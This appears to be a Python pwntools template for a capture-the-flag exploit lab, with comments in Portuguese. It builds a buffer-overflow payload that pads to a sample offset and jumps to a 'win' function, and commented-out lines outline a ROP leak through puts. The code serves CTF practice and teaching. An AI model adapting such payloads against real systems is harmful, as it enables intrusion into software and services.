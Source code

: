                 # Contexto do binário (preenchido automaticamente)
                elf_path = "./nome_do_binario_ctf" # Caminho para o binário no servidor ou workspace
                elf = ELF(elf_path)
                context.binary = elf
                # context.log_level = 'debug' # Opcional

                # Informações coletadas (das anotações)
                offset_eip = 112 # Exemplo de anotação
                addr_win_func = elf.symbols.get('win', 0x0) # Exemplo
                # rop_gadget_pop_rdi = 0xdeadbeef # Exemplo

                # Conexão (local por padrão, configurável para remote)
                # io = process(elf.path)
                # io = remote(" endereço_ctf ", porta) 
                # Esta parte seria configurável na UI do Laboratório de Exploit

                payload = b''
                payload += b'A' * offset_eip
                if addr_win_func:
                    payload += p64(addr_win_func)
                # else:
                    # payload += p64(rop_gadget_pop_rdi)
                    # payload += p64(elf.got['puts']) # Exemplo para leak
                    # payload += p64(elf.plt['puts'])
                    # payload += p64(elf.symbols['main'])

                # print("Payload:", payload)
                # io.sendline(payload)
                # io.interactive()
                